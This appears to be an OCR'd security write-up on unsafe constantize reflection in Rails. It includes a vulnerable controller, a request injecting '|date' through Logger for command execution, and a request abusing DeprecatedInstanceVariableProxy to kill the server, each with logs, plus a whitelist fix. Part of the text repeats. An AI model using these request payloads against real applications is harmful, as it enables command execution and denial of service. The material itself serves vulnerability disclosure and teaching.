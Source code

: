 If the code calls the new method, one way to achieve command injection is to instantiate the Logger class. Example:
```
class TesteController < ApplicationController
    def index
        klass = params[:class].constantize
        obj = klass.new(params[:arg])
        ...
    end
```
Executing a "date" command
```
Sun Feb 10 21:33:33 BRST 2013



Started GET "/teste/index?class=Logger&arg=%7cdate" for 127.0.0.1 at 2013-02-10 21:33:32 -0200
Connecting to database specified by database.yml
Processing by TesteController#index as HTML
  Parameters: {"class"=>"Logger", "arg"=>"|date"}
  Rendered teste/index.html.erb within layouts/application (3.8ms)
Completed 200 OK in 344ms (Views: 87.8ms | ActiveRecord: 0.0ms)
```


A safer way to use these methods is to apply a whitelist check over the string before the call to ensure that an allowed class/module will be constantized.
Taking advantage of ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy [4] in Rails 3.2.12. Use "exit!" to shutdown the application server.
```

Started GET "/teste/index?class=ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy&arg1=xxx&arg2=exit" for 127.0.0.1 at 2013-02-10 21:51:01 -0200
Connecting to database specified by database.yml
Processing by TesteController#index as HTML
  Parameters: {"class"=>"ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy", "arg1"=>"xxx", "arg2"=>"exit"}
DEPRECATION WARNING: @exit is deprecated! Call exit.somemethod instead of @exit.somemethod. Args: []. (called from index at /home/user/myapp/app/controllers/teste_controller.rb:5)
Completed 500 Internal Server Error in 1ms

SystemExit (exit):
  app/controllers/teste_controller.rb:5:in `index'
```

**Command Injection**

If the code calls the new method, one way to achieve command injection is to instantiate the Logger class. Example:
```
class TesteController < ApplicationController
    def index
        klass = params[:class].constantize
        obj = klass.new(params[:arg])
        ...
    end
```
Executing a "date" command
```
Sun Feb 10 21:33:33 BRST 2013



Started GET "/teste/index?class=Logger&arg=%7cdate" for 127.0.0.1 at 2013-02-10 21:33:32 -0200
Connecting to database specified by database.yml
Processing by TesteController#index as HTML
  Parameters: {"class"=>"Logger", "arg"=>"|date"}
```